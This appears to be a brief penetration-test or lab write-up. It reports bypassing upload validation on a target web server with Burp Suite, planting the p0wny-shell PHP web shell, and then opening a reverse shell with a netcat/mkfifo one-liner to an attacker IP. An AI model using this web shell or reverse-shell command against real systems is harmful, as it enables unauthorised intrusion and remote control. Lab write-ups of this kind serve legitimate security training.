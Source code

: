 The following host 10.10.11.241:8080 was found to be vulnerable to remote code execution.
![[Pasted image 20240407131623.png]]
I was able to bypass the backend server side file validation checks by editing the request in burp suite and uploading the  following payload:
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php

The below is evidence of the burp request and the shell
![[Pasted image 20240407131839.png]]

And the web shell being executed:
![[Pasted image 20240407131908.png]]

I was able to upgrade my shell to a more secure connection by using the following payload:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.28 6969 >/tmp/f
```

![[Pasted image 20240407134102.png]]